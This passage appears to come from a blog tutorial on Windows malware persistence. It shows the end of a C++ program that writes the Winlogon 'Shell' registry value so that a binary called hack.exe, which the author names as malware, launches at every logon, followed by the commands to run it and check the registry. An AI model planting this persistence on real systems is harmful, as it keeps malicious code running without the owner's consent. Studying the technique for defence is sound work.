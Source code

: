 ```cpp
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That is, our malware is located along the path: `Z:\...\hack.exe` instead of `C:\Windows\System32\hack.exe`.    

Run:

```powershell
.\pers.exe
req query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

![pers](/assets/images/58/2022-06-12_14-26.png){:class="img-responsive"}    
